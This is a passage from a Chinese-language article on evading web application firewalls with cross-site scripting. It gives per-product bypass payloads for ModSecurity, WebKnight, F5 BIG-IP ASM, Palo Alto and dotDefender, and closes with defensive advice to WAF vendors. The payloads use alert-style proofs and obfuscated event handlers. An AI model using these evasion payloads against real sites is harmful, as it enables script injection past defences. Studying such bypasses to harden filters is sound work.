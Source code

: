 绕过

ModSecurity绕过
```	
    <scri%00pt>confirm(0);</scri%00pt>
    <a/onmouseover[\x0b]=location=&#039;\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B&#039;>rhainfosec
```
参考http://blog.spiderlabs.com/2013/09/modsecurity-xss-evasion-challenge-results.html

WEB KNIGHT绕过
```
    <isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
    <marquee/onstart=confirm(2)>
```
F5 BIG IP ASM and Palo ALTO绕过
```
    <table background="javascript:alert(1)"></table> //IE6或者低版本Opera
    “/><marquee  onfinish=confirm(123)>a</marquee>
```
Dot Defender绕过
```
    <svg/onload=prompt(1);>
    <isindex action="javas&tab;cript:alert(1)" type=image>
    <marquee/onstart=confirm(2)>
```
### 结论

黑名单方式永远不是最好的解决办法，但是相对与白名单效率很高，对于WAF供应商来说，最好的实践如下：

1、注意WAF只能缓解攻击，并且针对已知的弱点的防护只是和源代码修复的方法打个时间差；
2、要保持WAF的规则库更新；
3、WAF可以配置参数限制，需要提供手册用于配置参数content-length最大最小长度，content-type类型，在入侵时进行告警；
4、如果WAF依据黑名单，要确保可以阻断已知的浏览器BUG，并且相应规则库要及时更新。

